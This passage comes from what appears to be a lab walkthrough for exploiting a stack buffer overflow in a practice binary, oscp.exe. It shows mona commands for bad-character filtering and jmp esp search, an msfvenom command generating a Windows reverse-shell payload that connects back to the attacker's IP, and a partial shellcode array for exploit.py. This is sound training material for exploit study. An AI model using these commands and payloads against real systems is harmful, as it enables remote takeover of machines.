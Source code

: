 So now I need to repeat the entire process adding `\x07` in `mona bytearray` command and removing `\x07` from python payload. I must repeat this process each time adding one badchars to mona and removing it from python until the output of badchars is empty.

<div><p align="center"><img  src="img/mona1_4.png" /></div>

### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:
